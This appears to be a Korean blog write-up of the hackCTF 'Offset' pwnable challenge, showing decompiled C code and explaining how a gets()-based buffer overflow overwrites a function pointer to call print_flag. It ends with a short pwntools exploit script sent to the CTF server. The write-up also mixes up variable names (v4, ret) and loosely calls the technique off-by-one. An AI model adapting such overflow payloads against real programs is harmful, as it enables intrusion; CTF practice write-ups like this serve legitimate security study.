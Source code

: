 ```yaml
---
layout: post
title:  "[hackCTF]Offset"
date:   2020-02-18
---
```


hackCTF pwnable 8번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+1h] [ebp-27h]
  int * v5; // [esp+20h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, (char * )&dword_0 + 2, 0, 0);
  puts("Which function would you like to call?");
  gets(&s);
  select_func(&s);
  return 0;
}
```

## ida - select_func
```c
int __cdecl select_func(char *src)
{
  char dest; // [esp+Eh] [ebp-2Ah]
  int (*v3)(void); // [esp+2Ch] [ebp-Ch]

  v3 = (int (*)(void))two;
  strncpy(&dest, src, 0x1Fu); // src의 값을 dest에 저장한다
  if ( !strcmp(&dest, "one") ) // dest의 값이 "one"이면
    v3 = (int (*)(void))one; // v3에 one함수의 주소를 저장한다
  return v3();
}
```

## ida - one
```c
int one()
{
  return puts("This is function one!");
}
```

## ida - print_flag
```c
int print_flag()
{
  char i; // al
  FILE * fp; // [esp+Ch] [ebp-Ch]

  puts("This function is still under development.");
  fp = fopen("flag.txt", "r");
  for ( i = _IO_getc(fp); i != -1; i = _IO_getc(fp) )
    putchar(i); // flag 값을 출력한다
  return putchar(10);
}
```

## ida - two
```c
int two()
{
  return puts("This is function two!");
}
```
<br>

정리해보자.<br><br>

***

|  v3  | esp+0x2C |
|:----:|:--------:|
|  ... |          |
| dest |  esp+0xE |

***
<br>
select_func에서 src의 값을 dest에 저장할 때 print_flag함수 주소로 v3까지 덮으면 return v3();에서 print_flag를 실행할 수 있을 것이다.<br><br>
목표 : 계속 변하는 v4의 주소로 ret을 덮는 payload 완성하기<br>
취약점 : gets(&v4)<br><br><br>
+) print_flag Offset

![0801](https://drive.google.com/uc?id=1KA2RAABGsf9_88UeDV2rig8vzczPHF_X)

offset을 알기 때문에 off-by-one 기법이 적용되었음ㅇㅇ

## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3007)

payload = "A"*(0x2c-0xe)+p32(0x000006D8)

p.sendline(payload)

p.interactive()
```

## 결과
![0802](https://drive.google.com/uc?id=1YaANIi0dWPXCjXTlp2WlS9nFo8QoMulG)
